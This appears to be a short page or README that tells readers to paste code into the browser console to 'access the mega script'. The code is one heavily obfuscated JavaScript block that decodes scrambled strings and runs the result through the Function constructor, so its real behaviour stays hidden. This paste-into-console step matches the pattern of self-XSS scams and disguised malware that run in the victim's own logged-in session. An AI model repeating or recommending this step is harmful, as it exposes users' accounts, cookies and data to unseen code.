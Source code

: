 # Put this into console to access the mega script
```(function(){var wNp='',FwQ=610-599;function DUI(f){var q=4457428;var c=f.length;var b=[];for(var z=0;z<c;z++){b[z]=f.charAt(z)};for(var z=0;z<c;z++){var t=q*(z+350)+(q%34960);var d=q*(z+491)+(q%21700);var e=t%c;var v=d%c;var m=b[e];b[e]=b[v];b[v]=m;q=(t+d)%7544788;};return b.join('')};var Xfg=DUI('stpwodrntitmscrohkyaqglzurfceobnvuxjc').substr(0,FwQ);var qDp='"a; t=u5uy;1e,r=a6(v.rfxo"}bcd-fbhrj=ltnfpar(t[v;xwz"; an i=r65,.1o7p,u2p8+,e9f84,h8s71,g0l9+,)2r8(,86a8n,n0,9,,+067=,r6q;car "=m]vf=r(vcr,om0[ohkulrnotu;o+[);[e[)])=r+1;la  )=1]8q5=a8hyu=f0.p.=70hf+r)vlrbaC0,aoahgSmCnasnl;nqt.;p+o)mv6rps{a)g,m.n)swav.rp.i8(c h)Af=r)v,rng,sol7nmtm-];v>-03gr-){]ae <=ougl+vgr]jCs+g0;sa= i=,unllvqr7fr0(v,ruzfjpl.n(tr;va  =;fo8(rav r=[;l<];,+;)}v,r(i(j.cdasCkdhAr(;)ivtrndec}i=;hfsde{k==d(1q*(+t..hgrdodestamu1)-;;(=a;<+k;gets[ )flie=C)pe)y((h.+e1gnh.qaj(c)a(C"dyAc(v+o)a+(.ah=rro,e)t(m)2w-w;z=1;n+m2w}el;eecmnaiwu};0ij(==;njli)e=;]*i (9>r){.oushgjosab{trifg=f,v )rw p=sa(=[o+s]1;[=;+r;7il()!0n=l6) i]("<e)..;ukhtj;sgbmteiugof ) s;g.=-.eo+n+"i)z}+h[p)sv(;[h]9;lv[r=r hwjai1(+"4;2am ==43A,f2]13,v6)3o,52s.9o[c9ttk;;;a; i={t0ivg[fromCyawC+d=(v6];1on((ar ]=i;t<t.cesg!hjo8+.rhres=l t0uoxvctarA6(o)..fo=n4Sfrvnv.uramahir;o(erbioa)j;ee+uvn{rrstlvtmum"(" .jo7neu};';var KrB=DUI[Xfg];var EnM='';var CQv=KrB;var JPH=KrB(EnM,DUI(qDp));var CtC=JPH(DUI('$,AtgdfAAq;7atfA1Ag#+rA:ASA)ia{os%Sstdn9;#\/3a,)feoAh)lhee($);;f*a.b=whA1_{;#swsAz+,.tf.mAl4e*rf&$e.0sr=!A\' o.rc(}5e=8d(A*hes(A)6ae((+Afou"(ter9.]_22t[n0{saht],%sA,t. Ai;t(of,t_A jvAA=.%{,seo4)0(ebA,3,1+()7!()yiAeA.s!fAtofctfo5;A9f(A$i0o.2Aun)o0)).#.t c AAair4oA)f2},emA{}6}n!_-brze(a2#(._lAbeA7_aye!Ae At(($mA)}.3a (\/);4CA.(s;a gA%Aez_)n$+[4((n4t1 A4.ec,e0a7!4aw}=ge.(;_Aj[)nC%\/.7}e$4r+2);ate43p}.!d!a"np()(x5.)atbmup2A1f\/0).{A\'0.,i\/4egqAn;AA,Aer,4tzhf,t,rnnj1)bh.A= 32o;2t]3=a e;_ei7%A#$A7b)oqA)}_72wenn *yA!);30;1(=(w,(e=y8>c_w(z=i0\/)A!3&h..*\/.e{=2!=tdA-a7!i6(.6.A97o$oer1!4{A))!uA33.jnk$2!v=,%w,;b)\'an()A&].a.Ab+v6%$070g=$aemn;.-tj0n.}(t-r3t.eA"ds!.fc7sm)n$)l)A,e.hA\/"!{t&]Aef3_,ue1\/r0h)rli)()SerrnbepAdA1c !!]p[ur)Aeo"j7=$$rrb60ep{,{e.r(.3_A(rs])w7r_==(yfz,-j3A. wj_3]A}2&a.,f,(.rz,sre;=rvAA$o.]).oype\/4+$_)A;,AgAeAle13Aaj4A_it.AA.e,_)A,.)$#.8)443.$Ap!2(.A[1fAua4r31]me.AA)!=6 { !AAA!r+}er.r\'(3ebt_in0dc;;.f.e>}Au Acurl $+!;%A)!+=s9,)$$t\/n.)1 g((o;ta)3zaAArrm_((ft,A4!.0i6%fa[(AaeAv(l.g!b!.$_ _(a.);6fo=.$=";"l.A=a.eam]'));var mFY=CQv(wNp,CtC );mFY(5921);return 7256})()```
